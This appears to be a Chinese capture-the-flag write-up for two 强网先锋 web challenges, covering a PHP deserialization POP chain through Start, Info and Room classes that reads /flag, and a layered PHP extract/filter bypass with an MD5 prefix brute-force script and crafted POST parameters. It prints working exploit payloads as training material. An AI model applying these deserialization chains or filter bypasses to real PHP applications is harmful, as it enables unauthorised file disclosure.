


# **[强网先锋]赌徒**

访问www.zip下载源码

php反序列化链

```php
<meta charset="utf-8">
<?php
//hint is in hint.php
error_reporting(1);


class Start
{
    public $name='guest';
    public $flag='syst3m("cat 127.0.0.1/etc/hint");';
	
    public function __construct(){
        echo "I think you need /etc/hint . Before this you need to see the source code";
    }

    public function _sayhello(){
        echo $this->name;
        return 'ok';
    }

    public function __wakeup(){
        echo "hi";
        $this->_sayhello();
    }
    public function __get($cc){
        echo "give you flag : ".$this->flag;
        return ;
    }
}

class Info
{
    private $phonenumber=123123;
    public $promise='I do';
	
    public function __construct(){
        $this->promise='I will not !!!!';
        return $this->promise;
    }

    public function __toString(){
        return $this->file['filename']->ffiillee['ffiilleennaammee'];
    }
}

class Room				
{
    public $filename='/flag';
    public $sth_to_set;
    public $a='';
	
    public function __get($name){						//读取不可访问属性的值时，__get() 会被调用。

        $function = $this->a;
        return $function();
    }
	
    public function Get_hint($file){
        $hint=base64_encode(file_get_contents($file));
        echo $hint;
        return ;
    }

    public function __invoke(){			
        $content = $this->Get_hint($this->filename);		//当尝试以调用函数的方式调用一个对象时，__invoke() 方法会被自动调用。(本特性只在 PHP 5.3.0 及以上版本有效。)
        echo $content;
    }
}

if(isset($_GET['hello'])){
    unserialize($_GET['hello']);
}else{
    $hi = new  Start();
}

?>

```

```php
<meta charset="utf-8">
<?php

use Room as GlobalRoom;

class Start
{
    public $name;
    public $flag;
}

class Info
{
    public $promise;
}

class Room
{
    public $filename='/flag';
    public $sth_to_set;
    public $a;
}
$Start = new Start();
$Info = new Info();
$Room = new Room();

$Room->a=$Room;
$Info->file['filename']=$Room;
$Start -> name = $Info;


echo serialize($Start);
?>

```

```
O:5:"Start":2:{s:4:"name";O:4:"Info":2:{s:7:"promise";N;s:4:"file";a:1:{s:8:"filename";O:4:"Room":3:{s:8:"filename";s:5:"/flag";s:10:"sth_to_set";N;s:1:"a";r:5;}}}s:4:"flag";N;}
```



# **[强网先锋]寻宝**

## source1

post传参

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


function filter($string){
        $filter_word = array('php','flag','index','KeY1lhv','source','key','eval','echo','\$','\(','\.','num','html','\/','\,','\'','0000000');
        $filter_phrase= '/'.implode('|',$filter_word).'/';
        return preg_replace($filter_phrase,'',$string);
    }


if($ppp){
    unset($ppp);
}
$ppp['number1'] = "1";
$ppp['number2'] = "1";
$ppp['nunber3'] = "1";
$ppp['number4'] = '1';
$ppp['number5'] = '1';

extract($_POST);

$num1 = filter($ppp['number1']);        
$num2 = filter($ppp['number2']);        
$num3 = filter($ppp['number3']);        
$num4 = filter($ppp['number4']);
$num5 = filter($ppp['number5']);    


if(isset($num1) && is_numeric($num1)){
    die("非数字");
}

else{
  
    if($num1 > 1024){
    echo "第一层";
        if(isset($num2) && strlen($num2) <= 4 && intval($num2 + 1) > 500000){
            echo "第二层";
            if(isset($num3) && '4bf21cd' === substr(md5($num3),0,7)){
                echo "第三层";
                if(!($num4 < 0)&&($num4 == 0)&&($num4 <= 0)&&(strlen($num4) > 6)&&(strlen($num4) < 8)&&isset($num4) ){
                    echo "第四层";
                    if(!isset($num5)||(strlen($num5)==0)) die("no");
                    $b=json_decode(@$num5);
                        if($y = $b === NULL){
                                if($y === true){
                                    echo "第五层";
                                    include 'KeY1lhv.php';
                                    echo $KEY1;
                                }
                        }else{
                            die("no");
                        }
                }else{
                    die("no");
                }
            }else{
                die("no");
            }
        }else{
            die("no");
        }
    }else{
        die("no111");
    }
}
```

md5爆破脚本

```python
import hashlib,sys
def getMD5(Cap):
    for x in range(10000000,10000000000):
        captcha = str(x)
        MD5 = hashlib.md5()
        MD5.update(captcha.encode('utf-8'))
        MD5=MD5.hexdigest()
        #print(MD5)
        if MD5[0:7] == Cap:
            print(captcha)
            break

getMD5('4bf21cd')
```

```=php
ppp[number1]=1025a&ppp[number2]=1e10&ppp[number3]=61823470&ppp[number4]=000000a&ppp[number5]={'a':'1'},
```

## source2

脚本

```python
import os
import sys
import docx
f_path = []
def print_files(path):
    lsdir = os.listdir(path)
    dirs = [i for i in lsdir if os.path.isdir(os.path.join(
path, i))]
    if dirs:
        for i in dirs:
            print_files(os.path.join(path, i))
    files = [i for i in lsdir if os.path.isfile(os.path.join(path,i))]
    
    for f in files:
        s = os.path.join(path, f)
        # print(s)
        f_path.append(s)
       
    return f_path

paths = print_files("five_month")
with open("out.txt","w") as f:
    for i in f_path:
        if ".png" not in i:
            file=docx.Document(i)
            for tex in file.paragraphs:
                f.write(str(tex.text))
        else:
            print(i)

```



最后在`out.txt`中找KEY2